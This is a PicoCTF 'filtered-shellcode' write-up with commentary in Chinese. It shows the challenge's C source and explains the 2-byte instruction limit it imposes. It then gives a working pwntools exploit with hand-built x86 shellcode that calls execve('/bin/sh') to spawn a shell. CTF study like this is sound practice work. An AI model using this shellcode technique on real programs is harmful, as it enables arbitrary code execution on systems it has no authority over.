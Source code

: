 ```yaml
---
title: PicoCTF - filtered-shellcode
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - filtered-shellcode
<!-- more -->

## Background
Shell Code
Reverse

## Source code
:::spoiler Source Code Got From Server After Get Shell
```cpp!
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_LENGTH 1000

void execute(char *shellcode, size_t length) {
    if (!shellcode || !length) {
        exit(1);
    }
    size_t new_length = length * 2;
    char result[new_length + 1];

    int spot = 0;
    for (int i = 0; i < new_length; i++) {
        if ((i % 4) < 2) {
            result[i] = shellcode[spot++];
        } else {
            result[i] = '\x90';
        }
    }
    // result[new_length] = '\xcc';
    result[new_length] = '\xc3';

    // Execute code
    int (*code)() = (int(*)())result;
    code();
}

int main(int argc, char *argv[]) {
    setbuf(stdout, NULL);
    char buf[MAX_LENGTH];
    size_t length = 0;
    char c = '\0';

    printf("Give me code to run:\n");
    c = fgetc(stdin);
    while ((c != '\n') && (length < MAX_LENGTH)) {
        buf[length] = c;
        c = fgetc(stdin);
        length++;
    }
    if (length % 2) {
        buf[length] = '\x90';
        length++;
    }
    execute(buf, length);
    return 0;
}
```
:::

## Recon
這一題沒有很難，但我沒有解出來，主要是因為reverse看不懂，完了QAQ，IDA都亂翻，只能求助於[^pico_pwn_filtered_shellcode_wp]，其實很簡單，好像也沒有filter的成分在，如果限制只能用每次兩bytes寫shell code不算的話
1. 其實就兩個function，一個是main function，另外一個是execute function，execute function主要會每一個shell code中間插入兩個nop，然後用function pointer的方式執行，所以我們的目標是寫一個shell code script開server的shell
2. 重點是shell code的instruction只能用2 bytes的instruction，所以沒辦法用類似`mov eax, 0x6e69622f`的這種方式，會GG，原因出自於execute function的for loop，他會把我們寫的shell code用2 bytes的方式切開，然後中間塞兩個nop(也就是兩個\x90，也是兩個bytes)，所以這其實就是限制我們只能用2 bytes寫shell code
    ```cpp!
    if ((i % 4) < 2) {result[i] = shellcode[spot++];}
    else {result[i] = '\x90';}
    ```
4. 所以不能隨便用exploit db上找到的shell code複製貼上，或是用以下payload，必須要善用`shl`，只要shl 16次(也就是2 bytes)就可以同時方式0x6e69622f，效果和`mov eax, 0x6e69622f`一樣
    ```asm!
    payload = asm("""
        mov eax, 0x6e69622f
        push eax
        mov eax, 0x0068732f
        push eax
        xor eax, eax
        xor ebx, ebx
        xor ecx, ecx
        xor edx, edx
        mov eax, 0xb
        lea ebx, DWORD PTR [esp]
        int 0x80
    """)
    ```

## Exploit - Write Properly Shell Code
```python!
from pwn import *

r = process('./fun')
# r = remote('mercury.picoctf.net', 35338)
r.recvline()

payload = asm("""
    /*Put the syscall number of execve in eax*/
    xor eax, eax
    mov al, 0xb
    
    /*Put zero in ecx and edx*/
    xor ecx, ecx
    xor edx, edx
    
    /*Push "/sh\x00" on the stack*/
    xor ebx, ebx
    mov bl, 0x68
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x73
    mov bl, 0x2f
    push ebx
    nop
    
    /*Push "/bin" on the stack*/
    mov bh, 0x6e
    mov bl, 0x69
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x62
    mov bl, 0x2f
    push ebx
    nop
              
    /*Move the esp (that points to "/bin/sh\x00") in ebx*/
    mov ebx, esp/*Syscall*/
    int 0x80
""")
r.sendline(payload)

r.interactive()
```

## Reference
[^pico_pwn_filtered_shellcode_wp]:[PicoCTF - Filtered Shellcode [Pwn]](https://cyb3rwhitesnake.medium.com/picoctf-filtered-shellcode-pwn-3d69010376df)